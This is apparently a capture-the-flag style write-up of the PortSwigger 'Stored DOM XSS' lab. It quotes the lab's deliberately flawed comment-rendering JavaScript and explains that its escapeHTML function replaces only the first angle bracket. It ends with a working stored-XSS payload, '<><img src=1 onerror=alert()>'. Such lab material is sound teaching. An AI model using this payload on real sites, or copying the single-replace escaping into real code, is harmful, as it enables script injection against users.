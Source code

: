 # [Lab: Stored DOM XSS](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-dom-xss-stored)

## Lab

This lab demonstrates a stored DOM vulnerability in the blog comment functionality. To solve this lab, exploit this vulnerability to call the `alert()` function.

## Analysis

loadComments:

```js
function loadComments(postCommentPath) {
    let xhr = new XMLHttpRequest();
    xhr.onreadystatechange = function() {
        if (this.readyState == 4 && this.status == 200) {
            let comments = JSON.parse(this.responseText);
            displayComments(comments);
        }
    };
    xhr.open("GET", postCommentPath + window.location.search);
    xhr.send();

    function escapeHTML(html) {
        return html.replace('<', '&lt;').replace('>', '&gt;');
    }

    function displayComments(comments) {
        let userComments = document.getElementById("user-comments");

        for (let i = 0; i < comments.length; ++i)
        {
            comment = comments[i];
            let commentSection = document.createElement("section");
            commentSection.setAttribute("class", "comment");

            let firstPElement = document.createElement("p");

            let avatarImgElement = document.createElement("img");
            avatarImgElement.setAttribute("class", "avatar");
            avatarImgElement.setAttribute("src", comment.avatar ? escapeHTML(comment.avatar) : "/resources/images/avatarDefault.svg");

            if (comment.author) {
                if (comment.website) {
                    let websiteElement = document.createElement("a");
                    websiteElement.setAttribute("id", "author");
                    websiteElement.setAttribute("href", comment.website);
                    firstPElement.appendChild(websiteElement)
                }

                let newInnerHtml = firstPElement.innerHTML + escapeHTML(comment.author)
                firstPElement.innerHTML = newInnerHtml
            }

            if (comment.date) {
                let dateObj = new Date(comment.date)
                let month = '' + (dateObj.getMonth() + 1);
                let day = '' + dateObj.getDate();
                let year = dateObj.getFullYear();

                if (month.length < 2)
                    month = '0' + month;
                if (day.length < 2)
                    day = '0' + day;

                dateStr = [day, month, year].join('-');

                let newInnerHtml = firstPElement.innerHTML + " | " + dateStr
                firstPElement.innerHTML = newInnerHtml
            }

            firstPElement.appendChild(avatarImgElement);

            commentSection.appendChild(firstPElement);

            if (comment.body) {
                let commentBodyPElement = document.createElement("p");
                commentBodyPElement.innerHTML = escapeHTML(comment.body);

                commentSection.appendChild(commentBodyPElement);
            }
            commentSection.appendChild(document.createElement("p"));

            userComments.appendChild(commentSection);
        }
    }
};
```

post a comment:

  ```http
  postId=1&comment='\"<script>alert(1)</script>&name='"<script>alert(1)</script>&email=a%40a.a&website=
  ```

- response:

  ```json
  [
  ...,
  {"avatar":"","website":"","date":"2023-01-25T13:54:08.075405359Z","body":"'\\\"<script>alert(1)<\/script>","author":"'\"<script>alert(1)<\/script>"}
  ]
  ```

- both `\` and `"` are escaped

vulnerability at `escapeHTML` function:

- the `replace` function in javascript: If you replace a value, only the first instance will be replaced. To replace all instances, use a regular expression with the g modifier set. ([link](https://www.w3schools.com/jsref/jsref_replace.asp))

## Exploit

payload:

```html
<><img src=1 onerror=alert()>
```

The leading `<>` will be escaped by the `escapeHTML` function,
remaining `img` element.
